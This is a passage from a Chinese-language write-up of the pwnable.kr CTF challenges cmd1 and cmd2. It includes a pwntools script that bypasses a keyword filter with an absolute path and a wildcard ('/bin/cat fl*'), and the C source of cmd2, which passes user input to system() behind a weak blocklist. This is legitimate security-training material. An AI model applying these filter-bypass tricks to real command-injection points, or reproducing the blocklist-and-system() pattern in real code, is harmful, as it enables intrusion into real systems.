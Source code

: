 可以看到设置了PATH 到/thankyoueverymuch,所以在/bin的二进制文件比如ls,pwd啥的就不能用了。。。。

但是可以绝对引用啊，然后cat是支持通配符的，就可以绕过了

Exp:

```python
#coding=utf-8
from pwn import *

shell=ssh(host='pwnable.kr',user='cmd1',password='guest',port=2222)
#shell.download_file('./cmd1.c')
sh = shell.run('./cmd1 "/bin/cat fl*" ')
sh.interactive()
```

## 0x0F cmd2

算是cmd1的进阶版本

```python
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}

```

这次连斜杠都给过滤了。。。
